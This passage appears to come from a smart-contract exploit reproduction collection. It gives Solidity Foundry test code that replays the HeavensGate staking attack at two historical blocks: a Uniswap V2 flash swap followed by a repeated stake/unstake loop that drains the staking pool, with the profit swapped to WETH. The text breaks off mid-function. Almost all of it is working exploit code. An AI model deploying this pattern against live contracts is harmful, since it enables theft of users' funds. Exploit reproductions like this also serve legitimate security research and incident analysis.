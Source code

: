 #### HeavensGate

The following exploit can be reproduced based on two AttackTx:

```solidity
function testHeavensGate1() external {
    heavensGateAttack(18069527);
}

function testHeavensGate2() external {
    heavensGateAttack(18071198);
}

function heavensGateAttack(uint256 attackBlockNumber) internal {
    vm.rollFork(attackBlockNumber);
    (, uint256 epochNumber, uint256 epochEnd, ) = hateStaking.epoch();
    emit log_named_uint("Epoch number", epochNumber);
    emit log_named_uint("Epoch end", epochEnd);
    emit log_named_decimal_uint("hate balanceOf StakingPool", hate.balanceOf(address(hateStaking)), hate.decimals());

    hate.approve(address(hateStaking), type(uint256).max);
    sHate.approve(address(hateStaking), type(uint256).max);
    if (attackBlockNumber == 18069527) {
        flashAmount =  hate.balanceOf(address(hate_weth)) * 9/10;
        hate_weth.swap(flashAmount, 0, address(this), "HeavensGate1");
    } else {
        flashAmount =  hate.balanceOf(address(hate_weth)) * 7/10;
        hate_weth.swap(flashAmount, 0, address(this), "HeavensGate2");
    }

    uint256 profitAmount = hate.balanceOf(address(this));
    emit log_named_decimal_uint("hate balance after exploit", profitAmount, hate.decimals());
    hate.approve(address(router), type(uint256).max);
    address[] memory path = new address[](2);
    path[0] = address(hate);
    path[1] = address(weth);
    router.swapExactTokensForTokensSupportingFeeOnTransferTokens(profitAmount, 0, path, address(this), block.timestamp);
    emit log_named_decimal_uint("weth balance after swap", weth.balanceOf(address(this)), weth.decimals());    
}

function uniswapV2Call(address /*sender*/, uint amount0, uint /*amount1*/, bytes calldata data) public {
    uint256 number = 0;
    uint i = 0;
    if (keccak256(data) == keccak256("HeavensGate1") || keccak256(data) == keccak256("HeavensGate2")) {
        if (keccak256(data) == keccak256("HeavensGate1")) number = 3; else number = 0x1e;
        emit log_named_decimal_uint("hate balanceOf loaned", hate.balanceOf(address(this)), hate.decimals());
        while(i < number) {
            uint balanceAttacker = hate.balanceOf(address(this));
            hateStaking.stake(address(this), balanceAttacker);
            uint sTokenBalance = sHate.balanceOf(address(this));
            hateStaking.unstake(address(this), sTokenBalance, true);
            i += 1;
        }
        uint fee = (amount0 * 3)/997+1;
        hate.transfer(msg.sender, flashAmount + fee);
    }
    else {
        number = 20;
```